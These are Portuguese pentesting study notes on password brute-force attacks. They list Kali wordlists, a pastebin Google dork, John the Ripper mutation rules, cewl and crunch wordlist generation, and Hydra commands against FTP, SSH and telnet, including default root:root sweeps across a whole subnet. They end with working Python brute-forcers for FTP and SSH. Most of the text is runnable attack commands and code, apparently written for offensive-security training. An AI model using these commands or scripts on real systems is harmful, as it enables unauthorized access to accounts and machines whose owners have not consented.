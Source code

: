 ##   Brute Force: Ataques em senhas

**Ataques de Força Bruta**

- Se o sistema não te bloqueia depois de 3 tentativas erradas ele provavelmente permite ataque de força bruta
- Se ele te bloquei mais volta a te permitir tentativas depos de certo tempo tambem é possivel setar o time para o numero de tentativas.
- Podemos analisar tbm caracteristicas do alvo e montar um wordlist com base no alvo
- Podemos tentar senhas default
- Pode ser tambem utilizado wordlists populares.

## Wordlists

**Word Lists Kali**

- usr/share/wordlists
- usr/share/seclists

Comando utilizado para buscar um termo dentro de varias wordlists

`grep -r "termo_pesquisado" *`

Buscando padrões de senha atraves do Google

site:pastebin.com "alvo_pesquisado"

Wordlist Longato

https://github.com/ricardolongatto/loncrack/blob/master/wl.txt




## Gerando mutação em wordlist

- Primeiro crie um lista com possiveis senhas utilizadas pelo alvo
- Depois execute o comando abaixo para fazer a mudação usando o John
- `john --wordlist=wl.txt --rules --stdout > wl_mutacao.txt`

Caso queira acresentar algum tipo de modificação para insereir na mutação, você pode alterar algumas configurações no john

- Acesse: /etc/john/john.conf
- Localize: List Rules Wordlist




## Gerando wordlists personalizadas

**CEWL**

Gerando lista de palavras com base no site

`cewl www.site.com -m 7 -w palavras`

**CRUNCH**

- % Digitos
- ^ Caracteres Especiais
- @ Caracteres Minúsculos
- , Caracteres Maiúsculos

Gerando lista com um padrão especifico

`crunch 10 10 -t palavra^^%% -o wordlist `




## Key Space Brute Force

Exemplo 01

`crunch 4 4 0123456789 -o pin `

Exemplo 02

`crunch 4 4 -f charset.lst mixalpha -o pin `




## Brute force com Hydra

Exemplo

`hydra -v -L users.txt -P senhas.txt 192.168.0.1 ftp`




## Reverse Brute force

*Obs: Realiza o atque de força bruta no login e não na senha*

Exemplo

`hydra -v -L users.txt -p admin 192.168.0.1 ssh`




## Low Hanging Fruit

*Obs: Buscar os pontos mais fracos e fáceis (Ex: credenciais default)*

Exemplo

`hydra -v -l root -p root -M targets ssh`

Exemplo

`hydra -v -l root -p root -M 192.168.0.0/24 ssh`




## Dicas Extras

`man hydra`

Exemplo

`hydra -v -L users.txt -p senhas.txt 192.168.0.1 telnet -t 1 -W 5`




## Construindo sua própria ferramenta

**Brute force ftp em python**

```
#!/usr/bin/python
import socket, sys,re

if len(sys.argv) != 3:
	print "Modo de uso: python lonftp.py 192.168.0.1 usuario"
	sys.exit()

target = sys.argv[1]
usuario = sys.argv[2]

f = open ('wordlist.txt')
for palavra in f.readlines():

	print "Realizando brute force FTP: %s:%s"%(usuario,palavra)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,21))
	s.recv(1024)

	s.send("USER "+usuario+"\r\n")
	s.recv(1024)
	s.send("PASS "+palavra+"\r\n")
	resposta = s.recv(1024)
	s.send("QUIT\r\n")

	if re.search('230', resposta):
		print "[+] Senha encontrada --->",palavra
		break
```




## Criando um cliente ssh em Python

```
#!/usr/bin/python
import paramiko

ssh = paramiko.SSHClient()
ssh.load_system_host_keys()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh.connect('172.16.1.5', username='root', password='root')

stdin, stdout, stderr = ssh.exec_command('ls')

for linha in stdout.readlines():

	print (linha.strip())

ssh.close()
```




## Criando um script para brute force em ssh

```
#!/usr/bin/python
import paramiko

ssh = paramiko.SSHClient()
ssh.load_system_host_keys()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

f = open('lista.txt')
for palavra in f.readlines():
	senha = palavra.strip()

	try:

		ssh.connect('172.16.1.5', username='root', password=senha)

	except paramiko.ssh_exception.AuthenticationException:

		print ("Testando com:",senha)
	else:
		print ("[+] Senha Encontrada --->", senha)
		break

ssh.close()
```
